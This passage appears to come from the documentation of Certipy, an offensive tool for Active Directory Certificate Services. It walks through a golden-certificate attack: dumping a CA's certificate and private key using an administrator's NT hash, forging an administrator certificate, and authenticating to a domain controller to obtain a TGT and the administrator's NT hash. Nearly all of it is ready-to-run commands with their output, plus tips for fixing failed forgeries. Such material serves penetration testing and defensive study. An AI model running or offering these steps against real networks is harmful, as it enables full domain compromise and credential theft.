 ```
```

In order to forge a certificate, we need the CA's certificate and private key.

Certipy can automatically retrieve the certificate and private key with the `-backup` parameter. In order to do so, the user must have administrative privileges on the CA server.

```bash
$ certipy ca -backup -ca 'corp-DC-CA' -username administrator@corp.local -hashes fc525c9683e8fe067095ba2ddc971889
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Creating new service
[*] Creating backup
[*] Retrieving backup
[*] Got certificate and private key
[*] Saved certificate and private key to 'CORP-DC-CA.pfx'
[*] Cleaning up
```

With the CA's certificate and private key, we can for instance forge a certificate for the domain controller `DC$`:

```bash
$ certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Saved forged certificate and private key to 'administrator_forged.pfx'

$ certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': fc525c9683e8fe067095ba2ddc971889
```

The forged certificate can then be used for authentication with Certipy's `auth` command. If the KDC returns `KDC_ERR_CLIENT_NOT_TRUSTED`, it means that the forging was not correct. This usually happens because of a missing certificate revocation list (CRL) in the certificate. You can either specify the CRL manually with `-crl`, or you can use a previously issued certificate as a template with the `-template` parameter. Please note that the template will include all non-defined extensions and attributes in the new certificate, such as the subject and serial number. Certipy will not include any extended key usage in the forged certificate, which means the certificate can be used for any purpose.  

### Certificates

The `cert` command is useful for working with PFX's from other tools, such as [Certify](https://github.com/GhostPack/Certify) or [KrbRelay](https://github.com/cube0x0/KrbRelay), which creates encrypted PFXs. 
